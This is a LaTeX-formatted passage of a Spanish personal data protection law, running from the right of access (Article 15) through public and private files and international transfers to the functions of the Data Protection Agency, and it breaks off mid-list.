{\large {\bf Art\'{\i}culo 15.} Derecho de acceso.}

{\bf 1.} El interesado tendr\'a derecho a solicitar y obtener gratuitamente 
informaci\'on de sus datos de car\'acter personal sometidos a tratamiento, el 
origen de dichos datos as\'{\i} como las comunicaciones realizadas o que se 
prev\'en hacer de los mismos.\\

{\bf 2.} La informaci\'on podr\'a obtenerse mediante la mera consulta de los 
datos por medio de su visualizaci\'on, o la indicaci\'on de los datos que son 
objeto de tratamiento mediante escrito, copia, telecopia o fotocopia, 
certificada o no, en forma legible e inteligible, sin utilizar claves o 
c\'odigos que requieran el uso de dispositivos mec\'anicos espec\'{\i}ficos.\\

{\bf 3.} El derecho de acceso a que se refiere este art\'{\i}culo s\'olo 
podr\'a ser ejercitado a intervalos no inferiores a doce meses, salvo que el 
interesado acredite un inter\'es leg\'{\i}timo al efecto, en cuyo caso podr\'a 
ejercitarlo antes.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 16.} Derecho de rectificaci\'on y cancelaci\'on.}

{\bf 1.} El responsable del tratamiento tendr\'a la obligaci\'on de hacer 
efectivo el derecho de rectificaci\'on o cancelaci\'on del interesado en el 
plazo de diez d\'{\i}as.\\

{\bf 2.} Ser\'an rectificados o cancelados, en su caso, los datos de car\'acter 
personal cuyo tratamiento no se ajuste a lo dispuesto en la presente Ley y, 
en particular, cuando tales datos resulten inexactos o incompletos.\\

{\bf 3.} La cancelaci\'on dar\'a lugar al bloqueo de los datos, conserv\'andose 
\'unicamente a disposici\'on de las Administraciones P\'ublicas, Jueces y 
Tribunales, para la atenci\'on de las posibles responsabilidades nacidas del 
tratamiento, durante el plazo de prescripci\'on de \'estas.\\
Cumplido el citado plazo deber\'a procederse a la supresi\'on.\\

{\bf 4.} Si los datos rectificados o cancelados hubieran sido comunicados 
previamente, el responsable del tratamiento deber\'a notificar la 
rectificaci\'on o cancelaci\'on efectuada a quien se hayan comunicado, en el 
caso de que se mantenga el tratamiento por este \'ultimo, que deber\'a 
tambi\'en proceder a la cancelaci\'on.\\

{\bf 5.} Los datos de car\'acter personal deber\'an ser conservados durante los 
plazos previstos en las disposiciones aplicables o, en su caso, en las 
relaciones contractuales entre la persona o entidad responsable del tratamiento 
y el interesado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 17.} Procedimiento de oposici\'on, acceso, 
rectificaci\'on o cancelaci\'on.}

{\bf 1.} Los procedimientos para ejercitar el derecho de oposici\'on, acceso,
as\'{\i} como los de rectificaci\'on y cancelaci\'on ser\'an establecidos 
reglamentariamente.\\

{\bf 2.} No se exigir\'a contraprestaci\'on alguna por el ejercicio de los 
derechos de oposici\'on, acceso, rectificaci\'on o cancelaci\'on.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 18.} Tutela de los derechos.}

{\bf 1.} Las actuaciones contrarias a lo dispuesto en la presente Ley pueden 
ser objeto de reclamaci\'on por los interesados ante la Agencia de Protecci\'on 
de Datos, en la forma que reglamentariamente se determine.\\

{\bf 2.} El interesado al que se deniegue, total o parcialmente, el ejercicio 
de los derechos de oposici\'on, acceso, rectificaci\'on o cancelaci\'on, 
podr\'a ponerlo en conocimiento de la Agencia de Protecci\'on de Datos o, en su 
caso, del Organismo competente de cada Comunidad Aut\'onoma, que deber\'a 
asegurarse de la procedencia o improcedencia de la denegaci\'on.\\

{\bf 3.} El plazo m\'aximo en que debe dictarse la resoluci\'on expresa de 
tutela de derechos ser\'a de seis meses.\\

{\bf 4.} Contra las resoluciones de la Agencia de Protecci\'on de Datos 
proceder\'a recurso contencioso--administrativo.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 19.} Derecho a indemnizaci\'on.}

{\bf 1.} Los interesados que, como consecuencia del incumplimiento de lo 
dispuesto en la presente Ley por el responsable o el encargado del tratamiento,
sufran da\~no o lesi\'on en sus bienes o derechos tendr\'an derecho a ser 
indemnizados.\\

{\bf 2.} Cuando se trate de ficheros de titularidad p\'ublica, la 
responsabilidad se exigir\'a de acuerdo con la legislaci\'on reguladora del 
r\'egimen de responsabilidad de las Administraciones P\'ublicas.\\

{\bf 3.} En el caso de los ficheros de titularidad privada, la acci\'on se 
ejercitar\'a ante los \'organos de la jurisdicci\'on ordinaria.
\begin{center}
{\LARGE T\'ITULO IV}\\
{\large Disposiciones sectoriales}
\end{center}
\vspace{0.3cm}
{\large CAP\'ITULO PRIMERO. Ficheros de titularidad p\'ublica}
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 20.} Creaci\'on, modificaci\'on o supresi\'on.}

{\bf 1.} La creaci\'on, modificaci\'on o supresi\'on de los ficheros de las 
Administraciones P\'ublicas s\'olo podr\'an hacerse por medio de disposici\'on 
general publicada en el `Bolet\'{\i}n Oficial del Estado' o diario oficial 
correspondiente.\\

{\bf 2.} Las disposiciones de creaci\'on o de modificaci\'on de ficheros 
deber\'an indicar:
\begin{itemize}
\item [(a)] La finalidad del fichero y los usos previstos para el mismo.
\item [(b)] Las personas o colectivos sobre los que se pretenda obtener datos 
de car\'acter personal o que resulten obligados a suministrarlos.
\item [(c)] El procedimiento de recogida de los datos de car\'acter personal.
\item [(d)] La estructura b\'asica del fichero y la descripci\'on de los tipos 
de datos de car\'acter personal incluidos en el mismo.
\item [(e)] Las cesiones de datos de car\'acter personal y, en su caso, las 
transferencias de datos que se prevean a pa\'{\i}ses terceros.
\item [(f)] Los \'organos de las Administraciones responsables del fichero.
\item [(g)] Los servicios o unidades ante los que pudiesen ejercitarse los 
derechos de acceso, rectificaci\'on, cancelaci\'on y oposici\'on.
\item [(h)] Las medidas de seguridad con indicaci\'on del nivel b\'asico, medio 
o alto exigible.
\end{itemize}

{\bf 3.} En las disposiciones que se dicten para la supresi\'on de los ficheros 
se establecer\'a el destino de los mismos o, en su caso, las previsiones que se 
adopten para su destrucci\'on.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 21.} Comunicaci\'on de datos entre Administraciones 
P\'ublicas.}

{\bf 1.} Los datos de car\'acter personal recogidos o elaborados por las 
Administraciones P\'ublicas para el desempe\~no de sus atribuciones no ser\'an 
comunicados a otras Administraciones P\'ublicas para el ejercicio de 
competencias diferentes o de competencias que versen sobre materias distintas,
salvo cuando la comunicaci\'on hubiere sido prevista por las disposiciones de 
creaci\'on del fichero o por disposici\'on de superior rango que regule su uso,
o cuando la comunicaci\'on tenga por objeto el tratamiento posterior de los 
datos con fines hist\'oricos, estad\'{\i}sticos o cient\'{\i}ficos.\\

{\bf 2.} Podr\'an, en todo caso, ser objeto de comunicaci\'on los datos de 
car\'acter personal que una Administraci\'on P\'ublica obtenga o elabore con 
destino a otra.\\

{\bf 3.} No obstante lo establecido en el art\'{\i}culo 11.2 (b), la 
comunicaci\'on de datos recogidos de fuentes accesibles al p\'ublico no 
podr\'a efectuarse a ficheros de titularidad privada, sino con el 
consentimiento del interesado o cuando una Ley prevea otra cosa.\\

{\bf 4.} En los supuestos previstos en los apartados 1 y 2 del presente 
art\'{\i}culo no ser\'a necesario el consentimiento del afectado a que se 
refiere el art\'{\i}culo 11 de la presente Ley.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 22.} Ficheros de las Fuerzas y Cuerpos de Seguridad.}

{\bf 1.} Los ficheros creados por las Fuerzas y Cuerpos de Seguridad que 
contengan datos de car\'acter personal que, por haberse recogido para fines 
administrativos, deban ser objeto de registro permanente, estar\'an sujetos al 
r\'egimen general de la presente Ley.\\

{\bf 2.} La recogida y tratamiento para fines policiales de datos de car\'acter 
personal por las Fuerzas y Cuerpos de Seguridad sin consentimiento de las 
personas afectadas est\'an limitados a aquellos supuestos y categor\'{\i}as de 
datos que resulten necesarios para la prevenci\'on de un peligro real para la 
seguridad p\'ublica o para la represi\'on de infracciones penales, debiendo ser 
almacenados en ficheros espec\'{\i}ficos establecidos al efecto, que deber\'an 
clasificarse por categor\'{\i}as en funci\'on de su grado de fiabilidad.\\

{\bf 3.} La recogida y tratamiento por las Fuerzas y Cuerpos de Seguridad de 
los datos a que hacen referencia los apartados 2 y 3 del art\'{\i}culo 7, 
podr\'an realizarse exclusivamente en los supuestos en que sea absolutamente 
necesario para los fines de una investigaci\'on concreta, sin perjuicio del 
control de legalidad de la actuaci\'on administrativa o de la obligaci\'on de 
resolver las pretensiones formuladas en su caso por los interesados que 
corresponden a los \'organos jurisdiccionales.\\

{\bf 4.} Los datos personales registrados con fines policiales se cancelar\'an 
cuando no sean necesarios para las averiguaciones que motivaron su 
almacenamiento.\\
A estos efectos, se considerar\'a especialmente la edad del afectado y el 
car\'acter de los datos almacenados, la necesidad de mantener los datos hasta 
la conclusi\'on de una investigaci\'on o procedimiento concreto, la 
resoluci\'on judicial firme, en especial la absolutoria, el indulto, la 
rehabilitaci\'on y la prescripci\'on de responsabilidad.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 23.} Excepciones a los derechos de acceso, 
rectificaci\'on y cancelaci\'on.}

{\bf 1.} Los responsables de los ficheros que contengan los datos a que se 
refieren los apartados 2, 3 y 4 del art\'{\i}culo anterior podr\'an denegar el 
acceso, la rectificaci\'on o cancelaci\'on en funci\'on de los peligros que 
pudieran derivarse para la defensa del Estado o la seguridad p\'ublica, la 
protecci\'on de los derechos y libertades de terceros o las necesidades de las 
investigaciones que se est\'en realizando.\\

{\bf 2.} Los responsables de los ficheros de la Hacienda P\'ublica podr\'an,
igualmente, denegar el ejercicio de los derechos a que se refiere el apartado 
anterior cuando el mismo obstaculice las actuaciones administrativas tendentes 
a asegurar el cumplimiento de las obligaciones tributarias y, en todo caso, 
cuando el afectado est\'e siendo objeto de actuaciones inspectoras.\\

{\bf 3.} El afectado al que se deniegue, total o parcialmente, el ejercicio de 
los derechos mencionados en los apartados anteriores podr\'a ponerlo en 
conocimiento del Director de la Agencia de Protecci\'on de Datos o del 
Organismo competente de cada Comunidad Aut\'onoma en el caso de ficheros 
mantenidos por Cuerpos de Polic\'{\i}a propios de \'estas, o por las 
Administraciones Tributarias Auton\'omicas, quienes deber\'an asegurarse de la 
procedencia o improcedencia de la denegaci\'on.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 24.} Otras excepciones a los derechos de los 
afectados.}

{\bf 1.} Lo dispuesto en los apartados 1 y 2 del art\'{\i}culo 5 no ser\'a 
aplicable a la recogida de datos cuando la informaci\'on al afectado impida o 
dificulte gravemente el cumplimiento de las funciones de control y 
verificaci\'on de las Administraciones P\'ublicas o cuando afecte a la Defensa 
Nacional, a la seguridad p\'ublica o a la persecuci\'on de infracciones penales 
o administrativas.\\

{\bf 2.} Lo dispuesto en el art\'{\i}culo 15 y en el apartado 1 del 
art\'{\i}culo 16 no ser\'a de aplicaci\'on si, ponderados los intereses en 
presencia, resultase que los derechos que dichos preceptos conceden al afectado 
hubieran de ceder ante razones de inter\'es p\'ublico o ante intereses de 
terceros m\'as dignos de protecci\'on. Si el \'organo administrativo 
responsable del fichero invocase lo dispuesto en este apartado, dictar\'a 
resoluci\'on motivada e instruir\'a al afectado del derecho que le asiste a 
poner la negativa en conocimiento del Director de la Agencia de Protecci\'on de 
Datos o, en su caso, del \'organo equivalente de las Comunidades Aut\'onomas.
\vspace{0.3cm}\\
{\large CAP\'ITULO SEGUNDO. Ficheros de titularidad privada}
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 25.} Creaci\'on.}

Podr\'an crearse ficheros de titularidad privada que contengan datos de 
car\'acter personal cuando resulte necesario para el logro de la actividad u 
objeto leg\'{\i}timos de la persona, empresa o entidad titular y se respeten 
las garant\'{\i}as que esta Ley establece para la protecci\'on de las personas.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 26.} Notificaci\'on e inscripci\'on registral.}

{\bf 1.} Toda persona o entidad que proceda a la creaci\'on de ficheros de 
datos de car\'acter personal lo notificar\'a previamente a la Agencia de 
Protecci\'on de Datos.\\

{\bf 2.} Por v\'{\i}a reglamentaria se proceder\'a a la regulaci\'on detallada 
de los distintos extremos que debe contener la notificaci\'on, entre los cuales 
figurar\'an necesariamente el responsable del fichero, la finalidad del mismo,
su ubicaci\'on, el tipo de datos de car\'acter personal que contiene, las 
medidas de seguridad, con indicaci\'on del nivel b\'asico, medio o alto 
exigible y las cesiones de datos de car\'acter personal que se prevean realizar 
y, en su caso, las transferencias de datos que se prevean a pa\'{\i}ses 
terceros.\\

{\bf 3.} Deber\'an comunicarse a la Agencia de Protecci\'on de Datos los 
cambios que se produzcan en la finalidad del fichero automatizado, en su 
responsable y en la direcci\'on de su ubicaci\'on.\\

{\bf 4.} El Registro General de Protecci\'on de Datos inscribir\'a el fichero 
si la notificaci\'on se ajusta a los requisitos exigibles.\\
En caso contrario podr\'a pedir que se completen los datos que falten o se 
proceda a su subsanaci\'on.\\

{\bf 5.} Transcurrido un mes desde la presentaci\'on de la solicitud de 
inscripci\'on sin que la Agencia de Protecci\'on de Datos hubiera resuelto 
sobre la misma, se entender\'a inscrito el fichero automatizado a todos los 
efectos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 27.} Comunicaci\'on de la cesi\'on de datos.}

{\bf 1.} El responsable del fichero, en el momento en que se efect\'ue la 
primera cesi\'on de datos, deber\'a informar de ello a los afectados, indicando,
asimismo, la finalidad del fichero, la naturaleza de los datos que han sido 
cedidos y el nombre y direcci\'on del cesionario.\\

{\bf 2.} La obligaci\'on establecida en el apartado anterior no existir\'a en 
el supuesto previsto en los apartados 2, letras (c), (d), (e) y 6 del 
art\'{\i}culo 11, ni cuando la cesi\'on venga impuesta por Ley.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 28.} Datos incluidos en las fuentes de acceso 
p\'ublico.}

{\bf 1.} Los datos personales que figuren en el censo promocional o las listas 
de personas pertenecientes a grupos de profesionales a que se refiere el 
art\'{\i}culo 3 (j) de esta Ley deber\'an limitarse a los que sean 
estrictamente necesarios para cumplir la finalidad a que se destina cada 
listado. La inclusi\'on de datos adicionales por las entidades responsables del 
mantenimiento de dichas fuentes requerir\'a el consentimiento del interesado, 
que podr\'a ser revocado en cualquier momento.\\

{\bf 2.} Los interesados tendr\'an derecho a que la entidad responsable del 
mantenimiento de los listados de los Colegios profesionales indique 
gratuitamente que sus datos personales no pueden utilizarse para fines de 
publicidad o prospecci\'on comercial.\\
Los interesados tendr\'an derecho a exigir gratuitamente la exclusi\'on de la 
totalidad de sus datos personales que consten en el censo promocional por las 
entidades encargadas del mantenimiento de dichas fuentes.\\
La atenci\'on a la solicitud de exclusi\'on de la informaci\'on innecesaria o 
de inclusi\'on de la objeci\'on al uso de los datos para fines de publicidad o 
venta a distancia deber\'a realizarse en el plazo de diez d\'{\i}as respecto de 
las informaciones que se realicen mediante consulta o comunicaci\'on 
telem\'atica y en la siguiente edici\'on del listado cualquiera que sea el 
soporte en que se edite.\\

{\bf 3.} Las fuentes de acceso p\'ublico que se editen en forma de libro o 
alg\'un otro soporte f\'{\i}sico, perder\'an el car\'acter de fuente accesible 
con la nueva edici\'on que se publique.\\
En el caso de que se obtenga telem\'aticamente una copia de la lista en formato 
electr\'onico, \'esta perder\'a el car\'acter de fuente de acceso p\'ublico en 
el plazo de un a\~no, contado desde el momento de su obtenci\'on.\\

{\bf 4.} Los datos que figuren en las gu\'{\i}as de servicios de 
telecomunicaciones disponibles al p\'ublico se regir\'an por su normativa 
espec\'{\i}fica.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 29.} Prestaci\'on de servicios de informaci\'on 
sobre solvencia patrimonial y cr\'edito.}

{\bf 1.} Quienes se dediquen a la prestaci\'on de servicios de informaci\'on 
sobre la solvencia patrimonial y el cr\'edito s\'olo podr\'an tratar datos de 
car\'acter personal obtenidos de los registros y las fuentes accesibles al 
p\'ublico establecidos al efecto o procedentes de informaciones facilitadas por 
el interesado o con su consentimiento.\\

{\bf 2.} Podr\'an tratarse tambi\'en datos de car\'acter personal relativos al 
cumplimiento o incumplimiento de obligaciones dinerarias facilitados por el 
creedor o por quien act\'ue por su cuenta o inter\'es. En estos casos se 
notificar\'a a los interesados respecto de los que hayan registrado datos de 
car\'acter personal en ficheros, en el plazo de treinta d\'{\i}as desde dicho 
registro, una referencia de los que hubiesen sido incluidos y se les 
informar\'a de su derecho a recabar informaci\'on de la totalidad de ellos, en 
los t\'erminos establecidos por la presente Ley.\\

{\bf 3.} En los supuestos a que se refieren los dos apartados anteriores cuando 
el interesado lo solicite, el responsable del tratamiento le comunicar\'a los 
datos, as\'{\i} como las evaluaciones y apreciaciones que sobre el mismo hayan 
sido comunicadas durante los \'ultimos seis meses y el nombre y direcci\'on de 
la persona o entidad a quien se hayan revelado los datos.\\

{\bf 4.} S\'olo se podr\'an registrar y ceder los datos de car\'acter personal 
que sean determinantes para enjuiciar la solvencia econ\'omica de los 
interesados y que no se refieran, cuando sean adversos, a m\'as de seis a\~nos,
siempre que respondan con veracidad a la situaci\'on actual de aquellos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 30.} Tratamientos con fines de publicidad y de 
prospecci\'on comercial.}

{\bf 1.} Quienes se dediquen a la recopilaci\'on de direcciones, reparto de 
documentos, publicidad, venta a distancia, prospecci\'on comercial y otras 
actividades an\'alogas, utilizar\'an nombres y direcciones u otros datos de 
car\'acter personal cuando los mismos figuren en fuentes accesibles al 
p\'ublico o cuando hayan sido facilitados por los propios interesados u 
obtenidos con su consentimiento.\\

{\bf 2.} Cuando los datos procedan de fuentes accesibles al p\'ublico, de 
conformidad con lo establecido en el p\'arrafo segundo del art\'{\i}culo 5.5 de 
esta Ley, en cada comunicaci\'on que se dirija al interesado se informar\'a del 
origen de los datos y de la identidad del responsable del tratamiento, as\'{\i} 
como de los derechos que le asisten.\\

{\bf 3.} En el ejercicio del derecho de acceso los interesados tendr\'an 
derecho a conocer el origen de sus datos de car\'acter personal, as\'{\i} como 
del resto de informaci\'on a que se refiere el art\'{\i}culo 15.\\

{\bf 4.} Los interesados tendr\'an derecho a oponerse, previa petici\'on y sin 
gastos, al tratamiento de los datos que les conciernan, en cuyo caso ser\'an 
dados de baja del tratamiento, cancel\'andose las informaciones que sobre ellos 
figuren en aqu\'el, a su simple solicitud.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 31.} Censo Promocional.}

{\bf 1.} Quienes pretendan realizar permanente o espor\'adicamente la actividad 
de recopilaci\'on de direcciones, reparto de documentos, publicidad, venta a 
distancia, prospecci\'on comercial u otras actividades an\'alogas, podr\'an 
solicitar del Instituto Nacional de Estad\'{\i}stica o de los \'organos 
equivalentes de las Comunidades Aut\'onomas una copia del censo promocional,
formado con los datos de nombre, apellidos y domicilio que constan en el censo 
electoral.\\

{\bf 2.} El uso de cada lista de censo promocional tendr\'a un plazo de 
vigencia de un a\~no. Transcurrido el plazo citado, la lista perder\'a su 
car\'acter de fuente de acceso p\'ublico.\\

{\bf 3.} Los procedimientos mediante los que los interesados podr\'an solicitar 
no aparecer en el censo promocional se regular\'an reglamentariamente. Entre 
estos procedimientos, que ser\'an gratuitos para los interesados, se incluir\'a 
el documento de empadronamiento.\\
Trimestralmente se editar\'a una lista actualizada del censo promocional,
excluyendo los nombres y domicilios de los queas\'{\i} lo hayan solicitado.\\

{\bf 4.} Se podr\'a exigir una contraprestaci\'on por la facilitaci\'on de la 
citada lista en soporte inform\'atico.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 32.} C\'odigos tipo.}

{\bf 1.} Mediante acuerdos sectoriales, convenios administrativos o decisiones 
de empresa, los responsables de tratamientos de titularidad p\'ublica y privada 
as\'{\i} como las organizaciones en que se agrupen, podr\'an formular c\'odigos 
tipo que establezcan las condiciones de organizaci\'on, r\'egimen de 
funcionamiento, procedimientos aplicables, normas de seguridad del entorno, 
programas o equipos, obligaciones de los implicados en el tratamiento y uso de 
la informaci\'on personal, as\'{\i} como las garant\'{\i}as, en su \'ambito, 
para el ejercicio de los derechos de las personas con pleno respeto a los 
principios y disposiciones de la presente Ley y sus normas de desarrollo.\\

{\bf 2.} Los citados c\'odigos podr\'an contener o no reglas operacionales 
detalladas de cada sistema particular y est\'andares t\'ecnicos de 
aplicaci\'on.\\
En el supuesto de que tales reglas o est\'andares no se incorporen directamente 
al c\'odigo, las instrucciones u \'ordenes que los establecieran deber\'an 
respetar los principios fijados en aqu\'el.\\

{\bf 3.} Los c\'odigos tipo tendr\'an el car\'acter de c\'odigos 
deontol\'ogicos o de buena pr\'actica profesional, debiendo ser depositados o 
inscritos en el Registro General de Protecci\'on de Datos y, cuando corresponda,
en los creados a estos efectos por las Comunidades Aut\'onomas, de acuerdo con 
el art\'{\i}culo 41. El Registro General de Protecci\'on de Datos podr\'a 
denegar la inscripci\'on cuando considere que no se ajusta a las disposiciones 
legales y reglamentarias sobre la materia, debiendo, en este caso, el Director 
de la Agencia de Protecci\'on de Datos requerir a los solicitantes para que 
efect\'uen las correcciones oportunas.
\begin{center}
{\LARGE T\'ITULO V}\\
{\large Movimiento internacional de datos}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 33.} Norma general.}

{\bf 1.} No podr\'an realizarse transferencias temporales ni definitivas de 
datos de car\'acter personal que hayan sido objeto de tratamiento o hayan sido 
recogidos para someterlos a dicho tratamiento con destino a pa\'{\i}ses que no 
proporcionen un nivel de protecci\'on equiparable al que presta la presente 
Ley, salvo que, adem\'as de haberse observado lo dispuesto en \'esta, se 
obtenga autorizaci\'on previa del Director de la Agencia de Protecci\'on de 
Datos, que s\'olo podr\'a otorgarla si se obtienen garant\'{\i}as adecuadas.\\

{\bf 2.} El car\'acter adecuado del nivel de protecci\'on que ofrece el 
pa\'{\i}s de destino se evaluar\'a por la Agencia de Protecci\'on de Datos 
atendiendo a todas las circunstancias que concurran en la transferencia o 
categor\'{\i}a de transferencia de datos. En particular, se tomar\'a en 
consideraci\'on la naturaleza de los datos de finalidad y la duraci\'on del 
tratamiento o de los tratamientos previstos, el pa\'{\i}s de origen y el 
pa\'{\i}s de destino final, las normas de Derecho, generales o sectoriales, 
vigentes en el pa\'{\i}s tercero de que se trate, el contenido de los informes 
de la Comisi\'on de la Uni\'on Europea, as\'{\i} como las normas profesionales 
y las medidas de seguridad en vigor en dichos pa\'{\i}ses.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 34.} Excepciones.}

Lo dispuesto en el art\'{\i}culo anterior no ser\'a de aplicaci\'on:
\begin{itemize}
\item[(a)] Cuando la transferencia internacional de datos de car\'acter 
personal resulte de la aplicaci\'on de tratados o convenios en los que sea 
parte Espa\~na.
\item [(b)] Cuando la transferencia se haga a efectos de prestar o solicitar 
auxilio judicial internacional.
\item [(c)] Cuando la transferencia sea necesaria para la prevenci\'on o para 
el diagn\'ostico m\'edicos, la prestaci\'on de asistencia sanitaria o 
tratamiento m\'edicos o la gesti\'on de servicios sanitarios.
\item [(d)] Cuando se refiera a transferencias dinerarias conforme a su 
legislaci\'on espec\'{\i}fica.
\item [(e)] Cuando el afectado haya dado su consentimiento inequ\'{\i}voco a la 
transferencia prevista.
\item [(f)] Cuando la transferencia sea necesaria para la ejecuci\'on de un 
contrato entre el afectado y el responsable del fichero o para la adopci\'on de 
medidas precontractuales adoptadas a petici\'on del afectado.
\item [(g)] Cuando la transferencia sea necesaria para la celebraci\'on o 
ejecuci\'on de un contrato celebrado o por celebrar, en inter\'es del afectado,
por el responsable del fichero y un tercero.
\item [(h)] Cuando la transferencia sea necesaria o legalmente exigida para la 
salvaguarda de un inter\'es p\'ublico. Tendr\'a esta consideraci\'on la 
transferencia solicitada por una Administraci\'on fiscal o aduanera para el 
cumplimiento de sus competencias.
\item [(i)] Cuando la transferencia sea precisa para el reconocimiento, 
ejercicio o defensa de un derecho en un proceso judicial.
\item [(j)] Cuando la transferencia se efect\'ue, a petici\'on de persona con 
inter\'es leg\'{\i}timo, desde un Registro P\'ublico y aqu\'ella sea acorde con 
la finalidad del mismo.
\item [(k)] Cuando la transferencia tenga como destino un Estado miembro de la 
Uni\'on Europea, o un Estado respecto del cual la Comisi\'on de las Comunidades 
Europeas, en el ejercicio de sus competencias, haya declarado que garantiza un 
nivel de protecci\'on adecuado.
\end{itemize}
\begin{center}
{\LARGE T\'ITULO VI}\\
{\large Agencia de Protecci\'on de Datos}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 35.} Naturaleza y r\'egimen jur\'{\i}dico.}

{\bf 1.} La Agencia de Protecci\'on de Datos es un Ente de Derecho p\'ublico,
con personalidad jur\'{\i}dica propia y plena capacidad p\'ublica y privada, 
que act\'ua con plena independencia de las Administraciones P\'ublicas en 
el ejercicio de sus funciones. Se regir\'a por lo dispuesto en la presente Ley 
y en un Estatuto propio, que ser\'a aprobado por el Gobierno.\\

{\bf 2.} En el ejercicio de sus funciones p\'ublicas, y en defecto de lo que 
disponga la presente Ley y sus disposiciones de desarrollo, la Agencia de 
Protecci\'on de Datos actuar\'a de conformidad con la Ley 30/1992, de 26 de 
noviembre, de R\'egimen Jur\'{\i}dico de las Administraciones P\'ublicas y del 
Procedimiento Administrativo Com\'un. En sus adquisiciones patrimoniales y 
contrataci\'on estar\'a sujeta al Derecho privado.\\

{\bf 3.} Los puestos de trabajo de los \'organos y servicios que integren la 
Agencia de Protecci\'on de Datos ser\'an desempe\~nados por funcionarios de las 
Administraciones P\'ublicas y por personal contratado al efecto, seg\'un la 
naturaleza de las funciones asignadas a cada puesto de trabajo. Este personal 
est\'a obligado a guardar secreto de los datos de car\'acter personal de que 
conozca en el desarrollo de su funci\'on.\\

{\bf 4.} La Agencia de Protecci\'on de Datos contar\'a, para el cumplimiento de 
sus fines, con los siguientes bienes y medios econ\'omicos:
\begin{itemize}
\item [(a)] Las asignaciones que se establezcan anualmente con cargo a los 
Presupuestos Generales del Estado.
\item [(b)] Los bienes y valores que constituyan su patrimonio, as\'{\i} como 
los productos y rentas del mismo.
\item [(c)] Cualesquiera otros que legalmente puedan serle atribuidos.
\end{itemize}

{\bf 5.} La Agencia de Protecci\'on de Datos elaborar\'a y aprobar\'a con 
car\'acter anual el correspondiente anteproyecto de presupuesto y lo remitir\'a 
al Gobierno para que sea integrado, con la debida independencia, en los 
Presupuestos Generales del Estado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 36.} El Director.}

{\bf 1.} El Director de la Agencia de Protecci\'on de Datos dirige la Agencia y 
ostenta su representaci\'on. Ser\'a nombrado, de entre quienes componen el 
Consejo Consultivo, mediante Real Decreto, por un per\'{\i}odo de cuatro 
a\~nos.\\

{\bf 2.} Ejercer\'a sus funciones con plena independencia y objetividad, y no 
estar\'a sujeto a instrucci\'on alguna en el desempe\~no de aqu\'ellas.\\
En todo caso, el Director deber\'a o\'{\i}r al Consejo Consultivo en aquellas 
propuestas que \'este le realice en el ejercicio de sus funciones.\\

{\bf 3.} El Director de la Agencia de Protecci\'on de Datos s\'olo cesar\'a 
antes de la expiraci\'on del per\'{\i}odo a que se refiere el apartado 1 a 
petici\'on propia o por separaci\'on acordada por el Gobierno, previa 
instrucci\'on de expediente, en el que necesariamente ser\'an o\'{\i}dos los 
restantes miembros del Consejo Consultivo, por incumplimiento grave de sus 
obligaciones, incapacidad sobrevenida para el ejercicio de su funci\'on, 
incompatibilidad o condena por delito doloso.\\

{\bf 4.} El Director de la Agencia de Protecci\'on de Datos tendr\'a la 
consideraci\'on de alto cargo y quedar\'a en la situaci\'on de servicios 
especiales si con anterioridad estuviera desempe\~nando una funci\'on 
p\'ublica. En el supuesto de que sea nombrado para el cargo alg\'un miembro de 
la carrera judicial o fiscal, pasar\'a asimismo a la situaci\'on administrativa 
de servicios especiales.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 36.} Funciones.}

Son funciones de la Agencia de Protecci\'on de Datos:
\begin{itemize}
\item [(a)] Velar por el cumplimiento de la legislaci\'on sobre protecci\'on de 
datos y controlar su aplicaci\'on, en especial en lo relativo a los derechos de 
informaci\'on, acceso, rectificaci\'on, oposici\'on y cancelaci\'on de datos.
\item [(b)] Emitir las autorizaciones previstas en la Ley o en sus disposiciones
reglamentarias.
\item [(c)] Dictar, en su caso y sin perjuicio de las competencias de otros 
\'organos, las instrucciones precisas para adecuar los tratamientos a los 
principios de la presente Ley.
\item [(d)] Atender las peticiones y reclamaciones formuladas por las personas 
afectadas.
\item [(e)] Proporcionar informaci\'on a las personas acerca de sus derechos en 
materia de tratamiento de los datos de car\'acter personal.
\item [(f)] Requerir a los responsables y los encargados de los tratamientos, 
previa audiencia de \'estos, la adopci\'on de las medidas necesarias para la 
adecuaci\'on del tratamiento de datos a las disposiciones de esta Ley y, en su 
caso, ordenar la cesaci\'on de los tratamientos y la cancelaci\'on de los 
ficheros, cuando no se ajuste a sus disposiciones.
\item [(g)] Ejercer la potestad sancionadora en los t\'erminos previstos por el 
T\'{\i}tulo VII de la presente Ley.
\item [(h)] Informar, con car\'acter preceptivo, los proyectos de disposiciones 
generales que desarrollen esta Ley.
\item [(i)] Recabar de los responsables de los ficheros cuanta ayuda e 
informaci\'on estime necesaria para el desempe\~no de sus funciones.
\item [(j)] Velar por la publicidad de la existencia de los ficheros de datos 
con car\'acter personal, a cuyo efecto publicar\'a peri\'odicamente una 
relaci\'on de dichos ficheros con la informaci\'on adicional que el Director de 
la Agencia determine.
\item [(k)] Redactar una memoria anual y remitirla al Ministerio de Justicia.
\item [(l)] Ejercer el control y adoptar las autorizaciones que procedan en 
relaci\'on con los movimientos internacionales de datos, as\'{\i} como 
desempe\~nar las funciones de cooperaci\'on internacional en materia de 
protecci\'on de datos personales.
\item [(m)] Velar por el cumplimiento de las disposiciones que la Ley de la 
Funci\'on Estad\'{\i}stica P\'ublica establece respecto a la recogida de datos 
